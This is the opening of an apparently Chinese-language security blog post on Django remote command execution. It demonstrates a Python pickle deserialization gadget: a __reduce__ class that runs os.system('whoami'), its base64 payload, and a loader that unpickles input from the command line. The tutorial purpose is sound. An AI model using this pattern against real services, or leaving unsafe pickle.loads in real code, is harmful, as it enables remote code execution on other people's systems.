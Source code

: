 ```yaml
---
layout: post
title: Django 远程命令执行漏洞详解
tags: [web, security, exploit]
---
```


### 一、背景

首先简单谈谈 Python 中的序列化模块。Python 中关于 `pickle` 序列化导致的任意命令执行问题早在 2002 年时就已经被提及，经过了长时间的测试和挖掘，其利用方法趋于固定，其 demo 如下：

`serializer.py` （用以生成序列化后的 payload）

```python
import base64
try:
    import cPickle as pickle
except:
    import pickle
    
    
class Whoami(object):
    def __reduce__(self):
        import os
        return (os.system, ('whoami', ))
    
sess = base64.b64encode(pickle.dumps(Whoami()))
print sess
```

代码执行后得到序列化后的字串：`Y3Bvc2l4CnN5c3RlbQpwMQooUyd3aG9hbWknCnAyCnRwMwpScDQKLg==`

`unserializer.py`（用以反序列化字符串生成对象）

```python
import sys
import base64
try:
    import cPickle as pickle
except:
    import pickle

pickle.loads(base64.b64decode(sys.argv[1]))
```

将前面的得到的序列化字串 `Y3Bvc2l4CnN5c3RlbQpwMQooUyd3aG9hbWknCnAyCnRwMwpScDQKLg==` 作为代码参数传入，得到输出：

![](/images/articles/2015-09-12-django-command-execution-analysis/1.png)
